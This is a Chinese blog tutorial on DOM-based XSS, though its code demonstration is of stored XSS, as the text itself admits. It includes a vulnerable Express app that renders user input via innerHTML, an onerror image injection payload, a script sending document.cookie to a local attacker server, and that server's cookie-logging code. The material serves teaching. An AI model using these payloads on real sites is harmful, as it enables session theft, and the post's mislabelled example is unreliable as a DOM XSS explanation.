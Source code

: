 ```yaml
---
tags: ['网络安全', '面试问题 - 网络']
---
```


# XSS 攻击 - DOM 型

> Posted: 10.24.2019

<Tag />

## DOM 型 XSS 的特点

DOM 型 XSS 攻击不同于反射型 XSS 和存储型 XSS。

DOM 型 XSS 代码不需要服务器端的解析响应的直接参与，而是通过浏览器端的DOM解析。

这完全是客户端的事情。

虽然如此，DOM 型 XSS 可以说是反射型 XSS 和存储型 XSS 的变种。

它的流程是这样的：

1. 攻击者给用户发了一个带有恶意字符串的链接
2. 当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来
3. 浏览器发现有XSS代码，就当做正常的HTML和JS解析执行
4. XSS攻击就发生了

![dom-xss](/dom-xss.png)

## DOM 型 vs. 反射型

如果你看到这里，你会发现，DOM 型 XSS 和反射型 XSS 好像没啥不一样的地方啊？

确实，这俩长得非常像，但它们确是不一样的两种 XSS 攻击。

如果看到这里你还是不太清楚的话，把下面的例子看完，你就懂了。

## 代码模拟

### 被攻击的服务器

首先我们起一个普通的 node 服务器，作为被攻击的网站服务器。

这个服务器很简单，就是注册用户，然后将用户的邮箱存储到数据库里。

当然，我们这里就不搞真的数据库了，就用内存暂时代替一下。

<span v-line>别问为什么不用 localStorage，localStorage 是 H5 的特性，服务器没有。</span>

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const path = require('path');

const app = express();

// 直接用内存当数据库了
const db = [];

app.use(bodyParser.urlencoded({ extended: true, limit: "50mb" }));
app.use(bodyParser.json({ extended: true, limit: "50mb" }));

app.use(express.static("./xss-stored.html"));
app.use(express.static("./xss-stored-result.html"));

app.get("/index", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored.html'));
});

app.get("/result", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored-result.html'));
});

app.get("/users", (req, res) => {
  res.status(200).json(db);
});

app.post("/register", (req, res) => {
  const { username, email } = req.body;
  db.push({ username, email });
  res.status(200).end('success!');
});

app.listen(8081, () => console.log("SB server running on port 8081"));
```

### 被攻击的客户端

前端就是用来展示搜索的结果

注册页面：

```html
<body>
  <div class="container">
    <form id="myform">
      用户名： <input type="text" placeholder="username..." id="username" /><br />
      邮箱： <input type="text" placeholder="email..." id="email" /><br /><br />
      <button class="submit-btn">注册</button>
    </form>
  </div>
  <script>
    // 绑定表单的提交
    document.querySelector(".submit-btn").addEventListener('click', (e) => {
      e.preventDefault();
      var username = document.querySelector('#username').value;
      var email = document.querySelector('#email').value;
      var data = { username, email };

      var xhr = new XMLHttpRequest();
      xhr.open('post', '/register', true);
      xhr.setRequestHeader('Content-Type', 'application/json');
      xhr.send(JSON.stringify(data));

      xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
          window.location.href = '/result';
        }
      }
    });
  </script>
</body>
```

注册成功后跳转到结果页面：

```html
<body>
  <div class="result"></div>
  <script>
    // 原生 AJAX 方法
    var xhr = new XMLHttpRequest();
    xhr.open('get', `http://localhost:8081/users`, true);
    xhr.send();
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4 && xhr.status === 200) {
        var users = JSON.parse(xhr.responseText);
        users.forEach(user => {
          var div = document.createElement('div');
          var text = '用户名：' + user.username + '，邮箱：' + user.email;
          div.innerHTML = text;
          document.querySelector('.result').appendChild(div);
        });
      }
    }
  </script>
</body>
```

最终实现的效果是这样的：

![xss-stored-pro](/xss-store-pro.gif)

### 攻击者寻找目标

攻击者这个时候会注册 `<img src=null onerror="alert('sb')" />` 这个字符串

能够帮助攻击者定位的，就是在结果页面，攻击代码被执行。

![xss stored attack](/xss-stored-attack.gif)

这个时候，攻击已经开始了，攻击者可以进行一些大胆的想法了。

### 开始攻击

和反射型 XSS 不一样，存储型 XSS 不需要发送任何邮件。

只要用户进入到 `localhost:8081/result` 这个页面，就会被攻击。

### 攻击者的攻击脚本

和反射型 XSS 一样，一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```

### 结果

当用户进入 result 页面时，我们成功地获取到了他的 cookie

![xss-stored-attack-result](/xss-stored-attack-result.png)

## 参考资料

[前端安全之XSS攻击](https://www.cnblogs.com/unclekeith/p/7750681.html)

[Excess XSS](https://excess-xss.com/)

<Disqus />